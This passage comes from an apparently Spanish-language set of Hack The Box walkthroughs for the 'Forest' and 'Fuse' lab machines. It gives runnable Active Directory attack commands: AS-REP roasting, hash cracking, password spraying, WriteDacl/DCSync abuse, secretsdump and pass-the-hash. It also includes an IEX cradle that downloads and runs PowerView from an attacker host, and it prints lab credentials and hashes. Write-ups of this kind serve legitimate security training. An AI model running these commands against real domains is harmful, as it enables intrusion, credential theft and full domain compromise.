\hypertarget{reconocimiento-de-maquina-puertos-abiertos-y-servicios-19}{%
\subsection*{Reconocimiento de maquina, puertos abiertos y servicios}\label{reconocimiento-de-maquina-puertos-abiertos-y-servicios-19}}
\addcontentsline{toc}{subsection}{Reconocimiento de maquina, puertos abiertos y servicios}

\hypertarget{ping-19}{%
\subsubsection*{Ping}\label{ping-19}}
\addcontentsline{toc}{subsubsection}{Ping}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ping}\NormalTok{ -c 1 10.10.10.161}
\end{Highlighting}
\end{Shaded}

ttl: 127 -\textgreater{} maquina Windows

\hypertarget{nmap-19}{%
\subsubsection*{Nmap}\label{nmap-19}}
\addcontentsline{toc}{subsubsection}{Nmap}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -p- --open -T5 -v -n 10.10.10.161}
\end{Highlighting}
\end{Shaded}

Va lento

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -sS -p- --open --min-rate 5000 -vvv -n -Pn 10.10.10.161 -oG allPorts }
\ExtensionTok{extractPorts}\NormalTok{ allPorts}
\FunctionTok{nmap}\NormalTok{ -sC -sV -p53,88,135,139,389,445,464,593,636,3268,3269,5985,9389,47001,49664,49665,49666,49667,49671,49676,49677,49684,49703,49918 10.10.10.161 -oN targeted}
\end{Highlighting}
\end{Shaded}

\begin{longtable}[]{@{}llll@{}}
\toprule
Puerto & Servicio & Que se nos occure? & Que falta?\tabularnewline
\midrule
\endhead
53 & domain & Domain controller rpcclient null session &\tabularnewline
88 & Kerberos & asproasting attack & lista de usuarios validos\tabularnewline
135 & msrpc & &\tabularnewline
139 & netbios & &\tabularnewline
389 & LDAP & Bloodhound & credenciales\tabularnewline
445 & smb & Null session &\tabularnewline
464 & kpasswd5? & &\tabularnewline
593 & ncacn\_http & &\tabularnewline
636 & tcpwrapped & &\tabularnewline
3268 & ldap & &\tabularnewline
3269 & tcpwrapped & &\tabularnewline
5985 & WinRM & evil-winrm & credenciales\tabularnewline
9389 & mc-nmf & Puertos por defecto de windows &\tabularnewline
47001 & http & Puertos por defecto de windows &\tabularnewline
49664 & msrpc & Puertos por defecto de windows &\tabularnewline
49665 & msrpc & Puertos por defecto de windows &\tabularnewline
49666 & msrpc & Puertos por defecto de windows &\tabularnewline
49667 & msrpc & Puertos por defecto de windows &\tabularnewline
49671 & msrpc & Puertos por defecto de windows &\tabularnewline
49676 & ncacn\_http & Puertos por defecto de windows &\tabularnewline
49677 & msrpc & Puertos por defecto de windows &\tabularnewline
49684 & msrpc & Puertos por defecto de windows &\tabularnewline
49703 & msrpc & Puertos por defecto de windows &\tabularnewline
49918 & msrpc & Puertos por defecto de windows &\tabularnewline
\bottomrule
\end{longtable}

\hypertarget{analyzando-el-smb-2}{%
\subsection*{Analyzando el SMB}\label{analyzando-el-smb-2}}
\addcontentsline{toc}{subsection}{Analyzando el SMB}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{crackmapexec}\NormalTok{ smb 10.10.10.161}
\ExtensionTok{smbclient}\NormalTok{ -L 10.10.10.82 -N}
\end{Highlighting}
\end{Shaded}

Vemos que estamos en frente de una maquina Windows Server 2016 Standard de 64 bit pro que se llama \textbf{FOREST} en el dominio \textbf{htb.local}.
No vemos ningun recursos compartidos a nivel de red.
Añadimos el dominio a nuestro \texttt{/etc/hosts}.

\hypertarget{buscando-ususarios-con-rpcclient-y-rpcenum}{%
\subsection*{Buscando ususarios con rpcclient y rpcenum}\label{buscando-ususarios-con-rpcclient-y-rpcenum}}
\addcontentsline{toc}{subsection}{Buscando ususarios con rpcclient y rpcenum}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{rpcclient}\NormalTok{ -U }\StringTok{""}\NormalTok{ 10.10.10.161 -N}

\ExtensionTok{rpcclient}\NormalTok{ $}\OperatorTok{>}\NormalTok{ enumdomusers}
\end{Highlighting}
\end{Shaded}

Como nos deja connectarnos con el null session vamos a enumerar esto con la utilidad rpcenum de s4vitar

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{git}\NormalTok{ clone https://github.com/s4vitar/rpcenum}
\BuiltInTok{cd}\NormalTok{ rpcenum}
\ExtensionTok{./rpcenum}\NormalTok{ -e All -i 10.10.10.161}
\end{Highlighting}
\end{Shaded}

Como aqui ya tenemos un listado de usuarios validos, lanzamos un ataque asproarst.

\hypertarget{vulnerability-assessment-6}{%
\section*{Vulnerability Assessment}\label{vulnerability-assessment-6}}
\addcontentsline{toc}{section}{Vulnerability Assessment}

\hypertarget{asproasting-attack}{%
\subsection*{Asproasting Attack}\label{asproasting-attack}}
\addcontentsline{toc}{subsection}{Asproasting Attack}

Los ataques Asproasting se pueden manejar con la utilidad \texttt{GetNPUsers.py}

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{cd}\NormalTok{ content}
\ExtensionTok{rpcclient}\NormalTok{ -U }\StringTok{""}\NormalTok{ 10.10.10.161 -N -c }\StringTok{"enumdomusers"} 
\ExtensionTok{rpcclient}\NormalTok{ -U }\StringTok{""}\NormalTok{ 10.10.10.161 -N -c }\StringTok{"enumdomusers"} \KeywordTok{|} \FunctionTok{grep}\NormalTok{ -oP }\StringTok{'\textbackslash{}[.*?\textbackslash{}]'} 
\ExtensionTok{rpcclient}\NormalTok{ -U }\StringTok{""}\NormalTok{ 10.10.10.161 -N -c }\StringTok{"enumdomusers"} \KeywordTok{|} \FunctionTok{grep}\NormalTok{ -oP }\StringTok{'\textbackslash{}[.*?\textbackslash{}]'} \KeywordTok{|} \FunctionTok{grep} \StringTok{"0x"}\NormalTok{ -v }
\ExtensionTok{rpcclient}\NormalTok{ -U }\StringTok{""}\NormalTok{ 10.10.10.161 -N -c }\StringTok{"enumdomusers"} \KeywordTok{|} \FunctionTok{grep}\NormalTok{ -oP }\StringTok{'\textbackslash{}[.*?\textbackslash{}]'} \KeywordTok{|} \FunctionTok{grep} \StringTok{"0x"}\NormalTok{ -v }\KeywordTok{|} \FunctionTok{tr}\NormalTok{ -d }\StringTok{'[]'}
\ExtensionTok{rpcclient}\NormalTok{ -U }\StringTok{""}\NormalTok{ 10.10.10.161 -N -c }\StringTok{"enumdomusers"} \KeywordTok{|} \FunctionTok{grep}\NormalTok{ -oP }\StringTok{'\textbackslash{}[.*?\textbackslash{}]'} \KeywordTok{|} \FunctionTok{grep} \StringTok{"0x"}\NormalTok{ -v }\KeywordTok{|} \FunctionTok{tr}\NormalTok{ -d }\StringTok{'[]'} \OperatorTok{>}\NormalTok{ users.txt}
\ExtensionTok{GetNPUsers.py}\NormalTok{ htb.local/ -no-pass -userfile users.txt }\OperatorTok{2>}\NormalTok{/dev/null}
\end{Highlighting}
\end{Shaded}

Aqui vemos el TGT del usuario \textbf{svc-alfresco}. Copiamos todo el hash del usuario svc-alfresco en un fichero llamado hash
y lo crackeamos con John

\hypertarget{crackeando-el-hash-con-john}{%
\subsection*{Crackeando el hash con John}\label{crackeando-el-hash-con-john}}
\addcontentsline{toc}{subsection}{Crackeando el hash con John}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{john}\NormalTok{ -wordlists=/usr/share/wordlists/rockyou.txt hash}
\end{Highlighting}
\end{Shaded}

Aqui encontramos su contraseña. Ya podemos effectuar un Kerberoasting attack. Pero primero, como siempre, credenciales encontradas son
credenciales que checkeamos con crackmapexec

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{crackmapexec}\NormalTok{ smb 10.10.10.161 -u }\StringTok{'svc-alfresco'}\NormalTok{ -p }\StringTok{'s3rvice'}
\end{Highlighting}
\end{Shaded}

\hypertarget{ldap-enumeracion-con-ldapdomaindump}{%
\subsection*{LDAP enumeracion con ldapdomaindump}\label{ldap-enumeracion-con-ldapdomaindump}}
\addcontentsline{toc}{subsection}{LDAP enumeracion con ldapdomaindump}

Esta utilidad nos permitte recuperar en formato html las informaciones del servicio LDAP.

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{cd}\NormalTok{ /var/www/html}
\ExtensionTok{ldapdomaindump}\NormalTok{ -u }\StringTok{'htb.local/svc-alfresco'}\NormalTok{ -p }\StringTok{'s3rvice'}\NormalTok{ 10.10.10.161}
\ExtensionTok{service}\NormalTok{ apache2 start}
\end{Highlighting}
\end{Shaded}

y podemos mirarlo con firefox en localhost

\hypertarget{kereroasting-attack}{%
\subsection*{Kereroasting attack}\label{kereroasting-attack}}
\addcontentsline{toc}{subsection}{Kereroasting attack}

Los ataques Kereroasting se pueden manejar con la utilidad \texttt{GetUserSPNs.py}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{GetUserSPNs.py}\NormalTok{ htb.local/svc-alfresco:s3rvice@10.10.10.161 -request -dc-ip 10.10.10.161}
\end{Highlighting}
\end{Shaded}

Esta utilidad nos retorna un mensaje como que no son las buenas credenciales. Si es el caso vamos si nos podemos connectar
por win-rm.

\hypertarget{vuln-exploit-gaining-access-6}{%
\section*{Vuln exploit \& Gaining Access}\label{vuln-exploit-gaining-access-6}}
\addcontentsline{toc}{section}{Vuln exploit \& Gaining Access}

\hypertarget{ganando-accesso-con-win-rm}{%
\subsection*{Ganando accesso con Win-RM}\label{ganando-accesso-con-win-rm}}
\addcontentsline{toc}{subsection}{Ganando accesso con Win-RM}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{crackmapexec}\NormalTok{ winrm 10.10.10.161 -u }\StringTok{'svc-alfresco'}\NormalTok{ -p }\StringTok{'s3rvice'}
\end{Highlighting}
\end{Shaded}

Aqui vemos quel usuario es (Pwn3d!)

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{evil-winrm}\NormalTok{ -i 10.10.10.161 -u }\StringTok{'svc-alfresco'}\NormalTok{ -p }\StringTok{'s3rvice'}
\end{Highlighting}
\end{Shaded}

ya estamos a dentro de la maquina y podemos ver la flag del usuario.

\hypertarget{enumeracion-del-systema-para-preparar-la-escalada-de-privilegios}{%
\subsection*{Enumeracion del systema para preparar la escalada de privilegios}\label{enumeracion-del-systema-para-preparar-la-escalada-de-privilegios}}
\addcontentsline{toc}{subsection}{Enumeracion del systema para preparar la escalada de privilegios}

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  instalamos bloodhound y neo4j

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{sudo}\NormalTok{ apt install neo4j bloodhound}
\end{Highlighting}
\end{Shaded}
\item
  lanzamos neo4j service

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{sudo}\NormalTok{ neo4j console}
\end{Highlighting}
\end{Shaded}
\item
  lanzamos bloodhound

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{bloodhound}\NormalTok{ --no-sandbox }\OperatorTok{&>}\NormalTok{ /dev/null }\KeywordTok{&}
\BuiltInTok{disown}
\end{Highlighting}
\end{Shaded}
\item
  connectamos bloodhound al neo4j database
\item
  Collectamos la data con SharpHound.ps1

  \begin{itemize}
  \item
    descargamos en sharphound

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{wget}\NormalTok{ https://raw.githubusercontent.com/puckiestyle/powershell/master/SharpHound.ps1}
\end{Highlighting}
\end{Shaded}
  \item
    lo uploadeamos desde el evil-winrm

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{upload}\NormalTok{ SharpHound.ps1}
\end{Highlighting}
\end{Shaded}
  \item
    lo lanzamos desde el evil-winrm

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{Import-Module}\NormalTok{ .\textbackslash{}SharpHound.ps1}
\ExtensionTok{Invoke-BloodHound}\NormalTok{ -CollectionMethod All}
\FunctionTok{dir}
\end{Highlighting}
\end{Shaded}
  \item
    ahora que tenemos el zip nos lo descargamos

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{download}\NormalTok{ 20210812133453_BloodHound.zip}
\end{Highlighting}
\end{Shaded}
  \end{itemize}
\item
  Drag \& Drop del fichero \textbf{.zip} hacia la ventana del bloodhound y en el Analysis tab

  \begin{itemize}
  \tightlist
  \item
    Find all Domains Admins -\textgreater{} Show Administrator of the domain
  \end{itemize}
\end{enumerate}

Aqui hay una via potencial (un camino) que nos permitte convertir en usuario administrador

\begin{figure}
\includegraphics[width=0.9\linewidth]{images/Forest-bloodhound} \caption{Bloodhound privesc}\label{fig:unnamed-chunk-49}
\end{figure}

\hypertarget{privilege-escalation-5}{%
\section*{Privilege Escalation}\label{privilege-escalation-5}}
\addcontentsline{toc}{section}{Privilege Escalation}

\hypertarget{rootear-la-maquina-14}{%
\subsection*{Rootear la maquina}\label{rootear-la-maquina-14}}
\addcontentsline{toc}{subsection}{Rootear la maquina}

El usuario svc-alfresco es miembro del groupo service accounts que es miembro de grupo privileged accounts que es miembro
del grupo account operators.

Este grupo account operators tiene permissions de typo Generic all sobre el grupo Exchange windows permissions. Si buscamos
por internet lo que es el account operators vemos que es un grupo de verdad que permitte crear usuarios y privilegios. Lo comprobamos
en el evil-winRM

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{net}\NormalTok{ user s4vitar s4vit4r123}\VariableTok{$!}\NormalTok{ /add /domain}
\ExtensionTok{net}\NormalTok{ user s4vitar}
\end{Highlighting}
\end{Shaded}

Effectivamente podemos crear usuarios.

Si seguimos analysando el BloodHound vemos que el grupo exchange Windows permission tiene capacidad de typo WriteDacl sobre el dominio.
Si hacemos un click derecho sobre el \textbf{WriteDacl} podemos mirar mas informaciones

\begin{figure}
\includegraphics[width=0.9\linewidth]{images/Forest-Abuse_writedacl} \caption{Bloodhound abuse WriteDacl}\label{fig:unnamed-chunk-50}
\end{figure}

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Añadimos el grupo Exchange Windows Permissions al usuario creado

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{net}\NormalTok{ group}
\ExtensionTok{net}\NormalTok{ group }\StringTok{"Exchange Windows Permissions"}\NormalTok{ s4vitar /add}
\ExtensionTok{net}\NormalTok{ user s4vitar}
\end{Highlighting}
\end{Shaded}
\item
  Passamos a la maquina victima el powerView

  \begin{itemize}
  \item
    en la maquina de atacante

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{wget}\NormalTok{ https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerView/powerview.ps1}
\ExtensionTok{python3}\NormalTok{ -m http.server 80}
\end{Highlighting}
\end{Shaded}
  \item
    en la maquina victima

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{IEX}\NormalTok{(New-Object Net.WebClient)}\ExtensionTok{.downloadString}\NormalTok{(}\StringTok{'http://10.10.14.8/powerview.ps1'}\NormalTok{)}
\end{Highlighting}
\end{Shaded}
  \end{itemize}
\item
  Asignamos el privilegio ds sync al usuario s4vitar

\begin{Shaded}
\begin{Highlighting}[]
\VariableTok{$SecPassword}\NormalTok{ = }\ExtensionTok{ConvertTo-SecureString} \StringTok{'s4vit4r123$!'}\NormalTok{ -AsPlainText -Force}
\VariableTok{$Cred}\NormalTok{ = }\ExtensionTok{New-Object}\NormalTok{ System.Management.Automation.PSCredential(}\StringTok{'htb.local\textbackslash{}s4vitar'}\NormalTok{, }\VariableTok{$SecPassword}\NormalTok{)}
\ExtensionTok{Add-DomainObjectAcl}\NormalTok{ -Credential }\VariableTok{$Cred}\NormalTok{ -TargetIdentity }\StringTok{"DC=htb,DC=local"}\NormalTok{ -PrincipalIdentity s4vitar -Rights DCSync}
\end{Highlighting}
\end{Shaded}
\item
  Desde la maquina de atacante podemos lanzar un impacket-secretsdump para recuperar los hashes de los usuarios

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{impacket-secretsdump}\NormalTok{ htb.local/s4vitar@10.10.10.161}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

Ya tenemos el hash del usuario administrador

\begin{figure}
\includegraphics[width=0.9\linewidth]{images/Forest-dcsync-admin-hash} \caption{DCSync Admin hash}\label{fig:unnamed-chunk-51}
\end{figure}

lo copiamos y con evilwin-rm nos connectamos como el usuario administrator haciendo un passthehash.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{evil-winrm}\NormalTok{ -i 10.10.10.161 -u }\StringTok{'Administrator'}\NormalTok{ -H }\StringTok{'32693b11e6aa90eb43d3372a07ceea6'}
\end{Highlighting}
\end{Shaded}

\texttt{WHOAMI\ -\textgreater{}\ htb\textbackslash{}administrator} ;)

\hypertarget{fuse}{%
\chapter*{Fuse}\label{fuse}}
\addcontentsline{toc}{chapter}{Fuse}

\hypertarget{introduccion-20}{%
\section*{Introduccion}\label{introduccion-20}}
\addcontentsline{toc}{section}{Introduccion}

La maquina del dia 13/08/2021 se llama Fuse.

El replay del live se puede ver aqui

\href{https://www.youtube.com/watch?v=GVOAKYeBv9c}{\includegraphics{https://img.youtube.com/vi/GVOAKYeBv9c/0.jpg}}

No olvideis dejar un like al video y un commentario\ldots{}

\hypertarget{enumeracion-20}{%
\section*{Enumeracion}\label{enumeracion-20}}
\addcontentsline{toc}{section}{Enumeracion}

\hypertarget{reconocimiento-de-maquina-puertos-abiertos-y-servicios-20}{%
\subsection*{Reconocimiento de maquina, puertos abiertos y servicios}\label{reconocimiento-de-maquina-puertos-abiertos-y-servicios-20}}
\addcontentsline{toc}{subsection}{Reconocimiento de maquina, puertos abiertos y servicios}

\hypertarget{ping-20}{%
\subsubsection*{Ping}\label{ping-20}}
\addcontentsline{toc}{subsubsection}{Ping}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ping}\NormalTok{ -c 1 10.10.10.193}
\end{Highlighting}
\end{Shaded}

ttl: 127 -\textgreater{} maquina Windows

\hypertarget{nmap-20}{%
\subsubsection*{Nmap}\label{nmap-20}}
\addcontentsline{toc}{subsubsection}{Nmap}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -p- --open -T5 -v -n 10.10.10.193}
\end{Highlighting}
\end{Shaded}

Va lento

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -sS -p- --open --min-rate 5000 -vvv -n -Pn 10.10.10.193 -oG allPorts }
\ExtensionTok{extractPorts}\NormalTok{ allPorts}
\FunctionTok{nmap}\NormalTok{ -sC -sV -p53,80,88,135,139,389,445,464,593,636,3268,3269,5985,9389,49666,49667,49675,49676,49680,49698,49761 10.10.10.193 -oN targeted}
\end{Highlighting}
\end{Shaded}

\begin{longtable}[]{@{}llll@{}}
\toprule
Puerto & Servicio & Que se nos occure? & Que falta?\tabularnewline
\midrule
\endhead
53 & domain & Domain controller rpcclient null session &\tabularnewline
80 & http & Web, Fuzzing &\tabularnewline
88 & Kerberos & asproasting attack & lista de usuarios validos\tabularnewline
135 & msrpc & &\tabularnewline
139 & netbios & &\tabularnewline
389 & LDAP & Bloodhound & credenciales\tabularnewline
445 & smb & Null session &\tabularnewline
464 & kpasswd5? & &\tabularnewline
593 & ncacn\_http & &\tabularnewline
636 & tcpwrapped & &\tabularnewline
3268 & ldap & &\tabularnewline
3269 & tcpwrapped & &\tabularnewline
5985 & WinRM & evil-winrm & credenciales\tabularnewline
9389 & mc-nmf & Puertos por defecto de windows &\tabularnewline
49666 & msrpc & Puertos por defecto de windows &\tabularnewline
49667 & msrpc & Puertos por defecto de windows &\tabularnewline
49675 & msrpc & Puertos por defecto de windows &\tabularnewline
49676 & ncacn\_http & Puertos por defecto de windows &\tabularnewline
49680 & msrpc & Puertos por defecto de windows &\tabularnewline
49698 & msrpc & Puertos por defecto de windows &\tabularnewline
49761 & msrpc & Puertos por defecto de windows &\tabularnewline
\bottomrule
\end{longtable}

\hypertarget{analyzando-el-smb-3}{%
\subsection*{Analyzando el SMB}\label{analyzando-el-smb-3}}
\addcontentsline{toc}{subsection}{Analyzando el SMB}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{crackmapexec}\NormalTok{ smb 10.10.10.193}
\ExtensionTok{smbclient}\NormalTok{ -L 10.10.10.193 -N}
\end{Highlighting}
\end{Shaded}

Vemos que estamos en frente de una maquina Windows Server 2016 Standard de 64 bit pro que se llama \textbf{FUSE} en el dominio \textbf{fabricorp.local}.
No vemos ningun recursos compartidos a nivel de red.
Añadimos el dominio a nuestro \texttt{/etc/hosts}.

\hypertarget{buscando-ususarios-con-rpcclient-y-rpcenum-1}{%
\subsection*{Buscando ususarios con rpcclient y rpcenum}\label{buscando-ususarios-con-rpcclient-y-rpcenum-1}}
\addcontentsline{toc}{subsection}{Buscando ususarios con rpcclient y rpcenum}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{rpcclient}\NormalTok{ -U }\StringTok{""}\NormalTok{ 10.10.10.193 -N}

\ExtensionTok{rpcclient}\NormalTok{ $}\OperatorTok{>}\NormalTok{ enumdomusers}
\end{Highlighting}
\end{Shaded}

Aqui vemos un Access Denied.

\hypertarget{analyzando-la-web-6}{%
\subsection*{Analyzando la web}\label{analyzando-la-web-6}}
\addcontentsline{toc}{subsection}{Analyzando la web}

\hypertarget{whatweb-14}{%
\subsubsection*{Whatweb}\label{whatweb-14}}
\addcontentsline{toc}{subsubsection}{Whatweb}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{whatweb}\NormalTok{ http://10.10.10.193}
\end{Highlighting}
\end{Shaded}

Vemos una vez mas que estamos en frente de una IIS pero nada mas. Seguimos checkeando la web.

\hypertarget{checkear-la-web-2}{%
\subsubsection*{Checkear la web}\label{checkear-la-web-2}}
\addcontentsline{toc}{subsubsection}{Checkear la web}

Sabemos que es un IIS 10.0 con asp.net. Hay una redireccion automatica a fuzse.fabricorp.local y vemos que estamos en frente
de un servicio de impressora. Miramos los logs print y vemos una columna interesante que es la de \textbf{Users}.

Nos creamos un fichero users y copiamos los usuarios de la web.

Ya que tenemos un fichero con contraseñas, intentamos fuerza bruta con \textbf{crackmapexec}.

\hypertarget{vulnerability-assessment-7}{%
\section*{Vulnerability Assessment}\label{vulnerability-assessment-7}}
\addcontentsline{toc}{section}{Vulnerability Assessment}

\hypertarget{crackeo-con-diccionario}{%
\subsection*{Crackeo con diccionario}\label{crackeo-con-diccionario}}
\addcontentsline{toc}{subsection}{Crackeo con diccionario}

Como tenemos una lista de usuarios potenciales, intentamos combinar los usuarios poniendo como contraseña los mismos usuarios.
Esto se hace con crackmapexec de la siguiente forma.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{crackmapexec}\NormalTok{ smb 10.10.10.193 -u users -p users}
\end{Highlighting}
\end{Shaded}

Esto no nos da nada. Intentamos crear un diccionario con la palabras encontrada en la web con \textbf{CEWL}

\hypertarget{creando-un-diccionario-desde-una-pagina-web-con-cewl}{%
\subsection*{Creando un diccionario desde una pagina web con CEWL}\label{creando-un-diccionario-desde-una-pagina-web-con-cewl}}
\addcontentsline{toc}{subsection}{Creando un diccionario desde una pagina web con CEWL}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{cewl}\NormalTok{ -w passwords http://fuse.fabricorp.local/papercut/logs/html/index.htm --with-numbers}
\end{Highlighting}
\end{Shaded}

Intentamos otravez el crackeo con \textbf{crackmapexec}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{crackmapexec}\NormalTok{ smb 10.10.10.193 -u users -p passwords --continue-on-success }\KeywordTok{|} \FunctionTok{grep}\NormalTok{ -v -i }\StringTok{"failure"}
\end{Highlighting}
\end{Shaded}

Aqui vemos algo interesante:

`\texttt{bash\ fabricorp.local\textbackslash{}tlavel:Fabricorp01\ STATUS\_PASSWORD\_MUST\_CHANGE\ fabricorp.local\textbackslash{}bhult:Fabricorp01\ STATUS\_PASSWORD\_MUST\_CHANGE}

Aqui \textbf{crackmapexec} nos dice que a encontrado contraseñas pero son contraseñas por defectos que se tienen que modificar.
Las vamos a cambiar con la utilidad \textbf{smbpasswd}

\hypertarget{cambiando-contraseuxf1as-con-smbpasswd}{%
\subsection*{Cambiando contraseñas con smbpasswd}\label{cambiando-contraseuxf1as-con-smbpasswd}}
\addcontentsline{toc}{subsection}{Cambiando contraseñas con smbpasswd}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{smbpasswd}\NormalTok{ -r 10.10.10.193 -U }\StringTok{"bhult"}
\OperatorTok{>} \ExtensionTok{Old}\NormalTok{ SMB password: Fabricorp01}
\OperatorTok{>} \ExtensionTok{New}\NormalTok{ SMB password: S4vitar123}\VariableTok{$!}
\OperatorTok{>} \ExtensionTok{Retype}\NormalTok{ new SMB password: S4vitar123}\VariableTok{$!}

\ExtensionTok{Password}\NormalTok{ changed for user bhult on 10.10.10.193}
\end{Highlighting}
\end{Shaded}

Lo miramos con crackmapexec

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{crackmapexec}\NormalTok{ smb 10.10.10.193 -u }\StringTok{"bhult"}\NormalTok{ -p }\StringTok{'S4vitar123$!'}
\end{Highlighting}
\end{Shaded}

Ya vemos que hay un \emph{{[}+{]}} lo que quiere decir que tenemos credenciales validas.

Intentamos connectarnos con rpcclient

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{rpcclient}\NormalTok{ -U }\StringTok{'bhult%S4vitar123$!'}\NormalTok{ 10.10.10.193}
\end{Highlighting}
\end{Shaded}

Nos pone un logon failure. Nos hace pensar que hay como una tarea que cambia la contraseña despues de un momento, intentamos hacer
lo mismo pero un poco mas rapido.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{smbpasswd}\NormalTok{ -r 10.10.10.193 -U }\StringTok{"bhult"}
\OperatorTok{>} \ExtensionTok{Old}\NormalTok{ SMB password: Fabricorp01}
\OperatorTok{>} \ExtensionTok{New}\NormalTok{ SMB password: S4vitar123}\VariableTok{$!}
\OperatorTok{>} \ExtensionTok{Retype}\NormalTok{ new SMB password: S4vitar123}\VariableTok{$!}

\ExtensionTok{Password}\NormalTok{ changed for user bhult on 10.10.10.193}

\ExtensionTok{rpcclient}\NormalTok{ -U }\StringTok{'bhult%S4vitar123$!'}\NormalTok{ 10.10.10.193}
\end{Highlighting}
\end{Shaded}

Ya estamos a dentro.

\hypertarget{enumerando-la-maquina-con-rpcclient}{%
\subsection*{Enumerando la maquina con rpcclient}\label{enumerando-la-maquina-con-rpcclient}}
\addcontentsline{toc}{subsection}{Enumerando la maquina con rpcclient}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{enumdomusers}
\end{Highlighting}
\end{Shaded}

Como hay un printer, tambien se puede enumerar impresoras.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{enumprinters}
\end{Highlighting}
\end{Shaded}

Aqui nos sale una contraseña.

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Copiamos los usuarios

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{echo} \StringTok{"user:[Administrator] rid:[0x1f4]}
\StringTok{user:[Guest] rid:[0x1f5]}
\StringTok{user:[krbtgt] rid:[0x1f6]}
\StringTok{user:[DefaultAccount] rid:[0x1f7]}
\StringTok{user:[svc-print] rid:[0x450]}
\StringTok{user:[bnielson] rid:[0x451]}
\StringTok{user:[sthompson] rid:[0x641]}
\StringTok{user:[tlavel] rid:[0x642]}
\StringTok{user:[pmerton] rid:[0x643]}
\StringTok{user:[svc-scan] rid:[0x645]}
\StringTok{user:[bhult] rid:[0x1bbd]}
\StringTok{user:[dandrews] rid:[0x1bbe]}
\StringTok{user:[mberbatow] rid:[0x1db1]}
\StringTok{user:[astein] rid:[0x1db2]}
\StringTok{user:[dmuir] rid:[0x1db3]"} \KeywordTok{|} \FunctionTok{grep}\NormalTok{ -oP }\StringTok{'\textbackslash{}[.*?\textbackslash{}]'} \KeywordTok{|} \FunctionTok{grep}\NormalTok{ -v }\StringTok{"0x"} \KeywordTok{|} \FunctionTok{tr}\NormalTok{ -d }\StringTok{'[]'} \OperatorTok{>}\NormalTok{ users}
\end{Highlighting}
\end{Shaded}
\item
  Checkeamos con crackmapexec que usuario tiene la contraseña encontrado con enumprinters

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{crackmapexec}\NormalTok{ smb 10.10.10.193 -u users -p }\StringTok{'$fab@s3Rv1ce$1'}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

Aqui vemos que tenemos una credencial valida para el usuario svc-print. Aqui vamos a intentar ganar accesso al systema con WinRM.

\hypertarget{vuln-exploit-gaining-access-7}{%
\section*{Vuln exploit \& Gaining Access}\label{vuln-exploit-gaining-access-7}}
\addcontentsline{toc}{section}{Vuln exploit \& Gaining Access}

\hypertarget{ganando-accesso-con-win-rm-1}{%
\subsection*{Ganando accesso con Win-RM}\label{ganando-accesso-con-win-rm-1}}
\addcontentsline{toc}{subsection}{Ganando accesso con Win-RM}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{crackmapexec}\NormalTok{ winrm 10.10.10.193 -u }\StringTok{'svc-print'}\NormalTok{ -p }\StringTok{'$fab@s3Rv1ce$1'}
\end{Highlighting}
\end{Shaded}

Aqui vemos quel usuario es (Pwn3d!)

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{evil-winrm}\NormalTok{ -i 10.10.10.161 -u }\StringTok{'svc-print'}\NormalTok{ -p }\StringTok{'$fab@s3Rv1ce$1'}
\end{Highlighting}
\end{Shaded}

ya estamos a dentro de la maquina y podemos ver la flag del usuario.

\hypertarget{privilege-escalation-6}{%
\section*{Privilege Escalation}\label{privilege-escalation-6}}
\addcontentsline{toc}{section}{Privilege Escalation}

\hypertarget{rootear-la-maquina-15}{%
\subsection*{Rootear la maquina}\label{rootear-la-maquina-15}}
\addcontentsline{toc}{subsection}{Rootear la maquina}

Enumeamos los privilegios del ususarios

\begin{Shaded}
\begin{Highlighting}[]
